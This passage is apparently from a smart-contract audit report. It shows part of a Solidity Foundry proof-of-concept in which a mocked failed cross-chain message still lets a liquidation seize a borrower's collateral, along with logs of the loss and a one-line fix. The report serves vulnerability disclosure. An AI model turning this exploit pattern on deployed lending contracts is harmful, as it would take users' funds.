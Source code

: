 ```solidity
        // call will fail
        vm.mockCall(address(routerB), abi.encodeWithSelector(CrossChainRouterMock._lzReceive.selector), "");
        deal(tokenB, liquidator, 100_000e18);
        IERC20(tokenB).approve(address(coreRouterB), type(uint256).max);
        routerB.liquidateCrossChain(
            borrower,
            repayAmount, // amount to repay
            31337,
            lTokenB, // collateral lToken (on Chain B)
            tokenB // borrowed asset (Chain B version)
        );
        emit log_named_decimal_uint("Borrower final total investment on chain A", lendStorageA.totalInvestment(borrower, lTokenA), 18);
    }
}
```

The logs below show that part of the borrower's collateral has been seized.

```log
Logs:
  Borrower initial total investment on chain A: 100000.000000000000000000
  borrowedAmount: 67500.000000000000000000
  Borrowed initial on chain A: 67500.000000000000000000
  Collateral initial on chain A: 75000.000000000000000000
  Borrowed initial on chain B: 67500.000000000000000000
  Collateral initial on chain B: 0.000000000000000000
  Liquidation incentive B: 1.080000000000000000
  Exchange rate stored lTokenB: 1.000000000000000000
  Borrower final total investment on chain A: 63550.000000000000000000
```

### Mitigation

Replace usage of `payload.amount` with `0` on CrossChainRouter.sol:433.